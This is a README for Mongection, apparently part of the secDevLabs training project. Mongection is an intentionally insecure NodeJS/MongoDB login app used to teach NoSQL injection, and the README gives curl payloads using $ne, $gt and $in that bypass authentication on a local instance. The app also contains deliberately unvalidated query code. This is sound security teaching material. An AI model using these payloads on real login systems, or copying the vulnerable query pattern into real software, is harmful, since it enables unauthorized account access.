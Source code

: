 # Mongection

<p align="center"><img  src="images/a1-banner.png"/></p>

Mongection is a simple NodeJS web application that simulates a login page. It has both `/register` and `/login` routes that, by communicating with a MongoDB, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **NoSQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/mongection
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<img src="images/attack0.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.

* Register another user now using command line:

```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```

- Login as this second user now using command line:

```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of NoSQL queries

After reviewing [db.js](https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/mongection/src/db.js) file, it was possible to see that some input from users is concatenated with NoSQL queries, as shown in the following code snippets:

```js
const existUser = await User.findOne({ email: email });
```

```js
const existsUser = await User.find({
  $and: [{ email: email }, { password: password }],
});
```

As no validation is being made on these variables, injected queries may be successfully executed in MongoDB. Some directives like `$ne` or `$gt`, if successfully injected, could bypass API authentication.

#### 🔥

An attacker could create a malicious query such as `{"$ne":""}` and pass it to email and password fields. Since `$ne` is the not equals condition in MongoDB, this is querying all the entries in the logins collection where both `username` and `password` are not equal to "" (empty).

Using `curl` on CLI interface, the malicious payload could be sent as shown bellow:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"><img  src="images/attack1.png"/></p>

The application will return the first user that MongoDB finds with a "Hello, Welcome Again!" message, demonstrating that authentication has been bypassed. There must be at least one user already registered in the database to recieve this message.

The same result could be reached if the attacker sent a payload using `$gt` (greater than) directive. The following query will search for entries with both `username` and `password `fields greater than "" (empty).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```

<p  align="center"><img  src="images/attack2.png"/></p>

Another possible malicious payload could use `$in` directive. The following query will iterate through every element of the given array and try each value listed for the `username` field. Also, `{"$gt":""}` will guarantee the `password` field is not evaluated.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

- Run NoSQL queries in the database.

## PR Solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
